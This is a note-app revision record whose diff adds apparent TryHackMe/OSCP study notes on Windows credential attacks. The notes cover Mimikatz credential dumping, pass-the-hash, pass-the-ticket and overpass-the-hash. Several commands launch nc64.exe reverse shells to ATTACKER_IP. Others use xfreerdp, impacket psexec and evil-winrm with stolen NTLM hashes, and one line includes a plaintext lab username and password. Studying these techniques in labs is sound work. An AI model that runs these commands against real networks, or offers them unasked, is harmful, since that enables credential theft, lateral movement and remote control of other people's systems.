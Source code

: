id: 44eb487a88fb491790c2e7c31a60df4a
parent_id: b91b954699f2456f93b8e669cb1c0953
item_type: 1
item_id: 7a17f0881b6947d484027650987381ef
item_updated_time: 1657641666625
title_diff: "[]"
body_diff: "[{\"diffs\":[[1,\"**\"],[0,\"Mimikatz\"],[1,\"**\"],[0,\" is \"]],\"start1\":0,\"start2\":0,\"length1\":12,\"length2\":16},{\"diffs\":[[0,\"cenario.\"],[-1,\"\\\n\\\n\"],[1,\" Can use other similar methods, but all commands are related to usage with Mimikatz.\\\n\\\n# \"],[0,\"NTLM\\\n\\\n![\"]],\"start1\":39,\"start2\":39,\"length1\":18,\"length2\":104},{\"diffs\":[[0,\"ileges (\"],[1,\"2 commands)\"],[0,\"\\\n\\\n> seku\"]],\"start1\":494,\"start2\":494,\"length1\":16,\"length2\":27},{\"diffs\":[[0,\"sa::\"],[-1,\"logonpasswords\"],[1,\"msv # according to TryHackMe\\\n> \\\n> sekurlsa::logonpasswords #according to PWK\\\n\\\n## Use hash to perform PtH attack\\\n\\\n> token::revert\\\n> \\\n> `sekurlsa::pth /user:bob.jenkins /domain:za.tryhackme.com /ntlm:6b4a57f67805a663c818106dc0648484 /run:\\\"c:\\\\tools\\\\\nc64.exe -e cmd.exe ATTACKER_IP 5555\\\"`\\\n\\\n![e5f1bb9f0fbfd1448a04713bb1e46e30.png](:/e4103fd2779647deb99e43f6811222b0)\\\n\\\nWe can open a reverse shell before actually calling the PtH command\\\n\\\nInterestingly, if you run the whoami command on this shell, it will still show you the original user you were using before doing PtH, but any command run from here will actually use the credentials we injected using PtH.\\\n\\\n## Other Ways to Pass-the-Hash (in Kali Linux if you have access to the machine)\\\n\\\n### RDP\\\n\\\n`xfreerdp /v:VICTIM_IP /u:DOMAIN\\\\\\\\MyUser /pth:NTLM_HASH`\\\n\\\n### PsExec (Python, impacket script)\\\n\\\n`psexec.py -hashes NTLM_HASH DOMAIN/MyUser@VICTIM_IP`\\\n\\\nimpacket-psexec oscp.exam/ketty.agan:ESMWaterP1p3S\\\\\\\\!@ms01.oscp.exam\\\n\\\n### WinRM (Evil-winrm)\\\n\\\n`evil-winrm -i VICTIM_IP -u MyUser -H NTLM_HASH`\\\n\\\n# Kerberos Auth (Pass-the-ticket)\\\n\\\nkrbtgt\\\n\\\n![d200068da85ba3b43481d4a65fac6954.png](:/1857cc52ba2a42b58efd49fe27d1bae4)\\\n\\\n![ac34f8b460f188e227a950343065f62b.png](:/06739fcd490d47098409a4b737f279cf)\\\n\\\n![08f7b99a327d97a11aaca24fdfea9f18.png](:/a96459342e624cc9931f27cceb33dae3)\\\n\\\n# Pass-The-Ticket\\\n\\\n> privilege::debug\\\n> \\\n> sekurlsa::tickets /export\\\n> \\\n> kerberos::ptt &lt;Ticket&gt;\\\n\\\nTo check if the tickets were correctly injected, use **klist**\\\n\\\n![154c29daef5aa89ff7c52dcfd09fede6.png](:/53adc8334b9745afa8a708c98ca083e3)\\\n\\\n# Overpass-the-hash / Pass-the-Key\\\n\\\nSimilar to PtH but in the context of Kerberos\\\n\\\nWhen a user requests a TGT, they send a timestamp encrypted with an encryption key derived from their password. \\\n\\\n- If we have the key, we can ask the KDC for TGT without requiring the actual password (therefore, PtK)\\\n\\\n### Obtain Encryption Keys\\\n\\\n> privilege::debug\\\n> \\\n> sekurlsa::ekeys\\\n\\\n## Pass-the-Key based on encryption\\\n\\\n### RC4\\\n\\\n`sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /rc4:96ea24eff4dff1fbe13818fbf12ea7d8 /run:\\\"c:\\\\tools\\\\\nc64.exe -e cmd.exe ATTACKER_IP 5556`\\\n\\\n### AES128\\\n\\\n`sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes128:b65ea8151f13a31d01377f5934bf3883 /run:\\\"c:\\\\tools\\\\\nc64.exe -e cmd.exe ATTACKER_IP 5556\\\"`\\\n\\\n### AES256\\\n\\\n`sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes256:b54259bbff03af8d37a138c375e29254a2ca0649337cc4c73addcd696b4cdb65 /run:\\\"c:\\\\tools\\\\\nc64.exe -e cmd.exe ATTACKER_IP 5556\\\"`\\\n\\\nRemember to run a reverse shell to obtain the shell on Kali; Have to modify the command parameter to be able to get the reverse shell execution\"]],\"start1\":523,\"start2\":523,\"length1\":18,\"length2\":2643}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-07-12T16:03:19.373Z
created_time: 2022-07-12T16:03:19.373Z
type_: 13